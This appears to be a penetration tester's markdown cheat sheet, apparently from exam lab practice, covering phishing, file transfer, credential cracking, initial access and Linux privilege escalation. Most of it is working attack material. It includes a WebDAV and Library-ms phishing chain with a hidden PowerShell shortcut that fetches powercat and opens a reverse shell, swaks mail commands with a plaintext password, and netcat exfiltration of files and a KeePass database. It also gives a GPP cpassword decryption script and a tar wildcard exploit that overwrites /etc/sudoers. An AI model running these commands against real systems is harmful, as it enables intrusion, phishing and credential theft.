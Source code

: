 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```
### 2) Create 'config.Library-ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```
### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```
### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

User + Password field included
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.112.189 --body @body.txt --header "Subject: Staging Script" --suppress-data --auth-user "maildmz@relia.com" --auth-password "DPuBT9tGCBrTbR"
```

# 🔹Transfer files (Windows to Linux)
```
# Windows TO
PS C:\temp> cmd /c "nc64.exe 192.168.174.245 4444 < C:\Scheduler\scheduler.exe"

# Linux
nc -lnvp 4444 > scheduler.exe
```


# 🔹Groups.xml
- AKA GPP (Group Policy Preferences)
- `Groups.xml` Likely in found `SYSVOL` folder, or `machines/preferences/group` or `/preferences/group`
- This is related to domain-connected workstation
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
We can crack the cpassword with the following python script `ggp-decrypt.py`
```
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

if __name__ == "__main__":
    key = b"\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
    iv = b"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0"
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # CHANGE THIS CIPHER TEXT
    ciphertext = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ=="
    ciphertext = base64.b64decode(ciphertext)

    plaintext = cipher.decrypt(ciphertext)
    plaintext = unpad(plaintext, AES.block_size)

    print(plaintext.decode())
```
To use the script do the following
```
python3 -m venv venv
. venv/bin/activate
pip3 install pycryptodome
python3 gpp-decrypt.py
```
# 🔹.kdbx, KeePass
Extract Password Hash
```
keepass2john Database.kdbx > keepass.hash
```
Crack 
```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
# If we hashcat we must remember to strip off the initial “Database:” from the hash.
hashcat -m 13400 keepass.hash rockyou.txt -r rockyou-30000.rule --force
```

Transfer files from window using nc
```
Get-Content "Database.kdbx" | .\nc.exe 192.168.45.239 5555
nc -lnvp 5555 > Database.kdbx
keepassxc 
```

# 🔹Initial Access
```
Point of entry: web

What kind of web technology is being ran? PHP? JAVA? etc
Knowing this = we know what kind of payload to run
On the Point of entry: can it be LFI // RFI?

RFI: http://url.com/image.php?imd=http://KALI/PHP-reverse-shell.php


```
Public exploits-> Sometimes, you need to change the payload (or put some pentestmonkey payload)
![image](https://github.com/user-attachments/assets/11a91186-4558-42e7-b5c4-e3c2a0410752)


```

# 🔹Linux Privilege Escalation

```
Sudo -l -> gcore -> check running processes for any Password dumping related processes
```

```
Is any of the local binary vulnerable? Sudo vulnerable?
```

```
wp-config.php -> contains credentials
```

```
If we have root file write, check if we can write to 
- /root/.ssh/authorized_keys
- /etc/passwd
- /etc/sudoers
```

```
sudo -l -> tar -czvf /tmp/backup.tar.gz*

#at target machine, create 2 files
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
#then create a payload.sh with below content, you can create on your kali machine and transfer to target machine.
#  payload.sh = echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers
echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers
chmod +x payload.sh
#execute the tar
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```






